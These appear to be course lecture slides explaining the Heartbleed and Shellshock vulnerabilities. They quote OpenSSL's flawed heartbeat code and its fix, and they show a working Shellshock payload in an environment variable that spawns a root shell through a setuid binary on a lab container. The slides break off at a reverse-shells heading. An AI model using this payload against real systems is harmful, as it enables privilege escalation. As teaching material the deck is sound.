



# Contents [Heartbleed](#/heartbleed) [Shellshock](#/shellshock) [Reverse Shells](#/reverseshells)
# Heartbleed
## Heartbleed (2012) <!-- .slide: class="right-float-img-800" -->  - A problem in *one* implementation of the TLS protocol - Specifically the [OpenSSL library](https://www.openssl.org/) implementation - Source code on [github](https://github.com/openssl/openssl) - Affected about one sixth of all websites - Well known because: - A serious attack - A catch looking name and logo ## Heartbleed - [RFC 6520](https://tools.ietf.org/html/rfc6520) allows a client to send a *Heartbeat Request* message -- like a ping -- to the server - It consists of a string and its size (as a 16-bit int) - The server sends that message back - In OpenSSL, the library did not check the size of the message - So if you sent "bird" and 65,536, it would send 64Kb of data back - Which would be a 64Kb dump of the server's memory
xkcd on Heartbleed (
# 1354
)

xkcd on Heartbleed (
# 1354
)

xkcd on Heartbleed (
# 1354
)

## Seriousness > Some might argue that Heartbleed is the worst vulnerability found (at least in terms of its potential impact) since commercial traffic began to flow on the Internet. - Forbes cybersecurity columnist Joseph Steinberg <h2 class="r-fit-text">Heartbleed Response Contruction</h2>  <!-- .slide: class="smaller-pre wide-pre" --> ## Source code ```c /* Allocate memory for the response, size is 1 byte * message type, plus 2 bytes payload length, plus * payload, plus padding */ unsigned int payload; unsigned int padding = 16; /* Use minimum padding */ // Read from type field first hbtype = *p++; /* After this instruction, the pointer * p will point to the payload_length field */ // Read from the payload_length field from the request packet n2s(p, payload); /* Function n2s(p, payload) reads 16 bits * from pointer p and store the value * in the INT variable "payload". */ pl = p; // pl points to the beginning of the payload content if (hbtype == TLS1_HB_REQUEST) { unsigned char *buffer, *bp; int r; /* Allocate memory for the response, size is 1 byte * message type, plus 2 bytes payload length, plus * payload, plus padding */ buffer = OPENSSL_malloc(1 + 2 + payload + padding); bp = buffer; // Enter response type, length and copy payload *bp++ = TLS1_HB_RESPONSE; s2n(payload, bp); // copy payload memcpy(bp, pl, payload); /* pl is the pointer which * points to the beginning * of the payload content */ bp += payload; // Random padding RAND_pseudo_bytes(bp, padding); // this function will copy the 3+payload+padding bytes // from the buffer and put them into the heartbeat response // packet to send back to the request client side. OPENSSL_free(buffer); r = ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, 3 + payload + padding); } ``` <h2 class="r-fit-text">Heartbleed Response Contruction</h2>  ## Mitigation - Quick source code fix: ```c /* silently discard per RFC 6520 sec. 4 */ if (1 + 2 + payload + 16 > s->s3->rrec.length) return 0; ``` - More extensive fixes were also implemented - Re-generation of server keys ## What was compromised? - Server private keys - Many certificates were revoked and re-issued - Passwords - Social insurance numbers (Canadian SSNs) - "Anti-malware researchers also exploited Heartbleed to their own advantage in order to access secret forums used by cybercriminals" (Wikipedia) ## Aftermath > Think about it, OpenSSL only has two [fulltime] people to write, maintain, test, and review 500,000 lines of business critical code. > - John Walsh, software engineer - The [Core Infrastructure Initiative](https://en.wikipedia.org/wiki/Core_Infrastructure_Initiative) was created by the Linux Foundation - Provides funds to allow those working on it to develop full-time, and also pay for security audits - Since superceded by the [Open Source Security Foundation](https://en.wikipedia.org/wiki/Open_Source_Security_Foundation)
# Shellshock
<!-- .slide: class="right-float-img-800" --> ## Background: bash functions  One can declare functions in the bash shell: ```bash $ foo() { echo "hello world"; } $ declare -f foo foo () { echo "hello world" } $ foo hello world $ unset -f foo $ declare -f foo $ ``` ## Pass function to child process ```bash $ foo() { echo "hello world"; } $ declare -f foo foo () { echo "hello world" } $ foo hello world $ export -f foo $ /bin/bash child$ declare -f foo foo () { echo "hello world" } child$ foo hello world child$ ``` ## Toward a vulnerability This works on the *metasploit* container ```bash $ foo='() { echo "hello world"; }' $ echo $foo () { echo "hello world"; } $ declare -f foo $ export foo $ /bin/bash child$ echo $foo child$ declare -f foo foo () { echo "hello world" } child$ foo hello world child$ ``` ## Non-shellshock version Run on, say, *outer1* ```bash $ foo='() { echo "hello world"; }' $ echo $foo () { echo "hello world"; } $ declare -f foo $ export foo $ /bin/bash child$ echo $foo () { echo "hello world"; } child$ declare -f foo child$ foo bash: foo: command not found child$ ``` ## Toward a vulnerability - A carefully crafted environment variable would be turned into a function in a child process - This functionality was intentional at the time, and has since been removed - This is part 1 of the vulnerability - If the child is a shell, the parent doesn't have to be - It just has to have environment variables set - There is a part 2 to the vulnerability... ## Shellshock exploit This works on the *metasploit* container ```bash $ foo='() { echo "hello world"; }; pwd;' $ echo $foo () { echo "hello world"; }; date; $ export foo $ /bin/bash /root child$ echo $foo child$ declare -f foo foo () { echo "hello world" } child$ ``` Notice the `/root` when the child process was run ## Shellshock exploit - A carefully crafted environment variable: ```bash foo='() { echo "hello world"; }; pwd;' ``` - Will turn into a function in a child process - *ALSO* it will execute the last command (`pwd`) when the child process starts: ```bash $ /bin/bash /root child$ ``` - This *arbitrary code execution* is the Shellshock vulnerability - Executing the code (here `pwd`) was due to a parsing error <!-- .slide: class="small-pre" --> <h2 class="r-fit-text">Shellshock exploit on <i>metasploit</i></h2> ```bash $ whoami user $ cat vul.c #include <unistd.h> #include <stdio.h> #include <stdlib.h> int main() { setuid(geteuid()); system("/bin/ls -l"); return 0; } $ gcc vul.c -o vul $ sudo chown root vul $ sudo chmod 4755 vul $ ./vul -rwsr-xr-x 1 root user 6567 2024-03-26 23:47 vul -rw-r--r-- 1 root root 138 2024-03-26 23:46 vul.c $ whoami user $ export foo='() { echo "hello world"; }; /bin/sh' $ ./vul sh-3.2# whoami root sh-3.2# ``` ## `chmod 4755` - This command will: - Allow the owner (root) to read, write, and execute it (the '7' value) - Allow the group to read and execute it (the first '5' value) - Allow everybody else to read and execute it (the second '5' value) - Also: - The initial '4' digit is the set-uid bit - Meaning it runs as if it were the owner (root) - Many programs have this setuid bit set, including, at the time, ping: ```bash root@metasploit:~# ls -l /bin/ping -rwsr-xr-x 1 root root 30856 Dec 10 2007 /bin/ping root@metasploit:~# ``` ## Vulnerability Level - Many processes, when running another command, invoke it via a shell - Python: `os.system()` - C/C++: `system()` - This is often /bin/bash (although not always) ## Vulnerable platforms - CGI-based web server - One can pass environment variables in the HTTP header - CGI executes a shell for each time it runs the server-side program - OpenSSH server - The `SSH_ORIGINAL_COMMAND` is parsed by the server as root, and then executed as the user - But with Shellshock, one can then execute any command as root - DHCP - Some DHCP clients pass commands to bash - With additional options to the DHCP request, Shellshock is activated - And so on... ## One ideal goal - Is to execute a *reverse shell* on the host - Which leads us to...
# Reverse Shells
## ...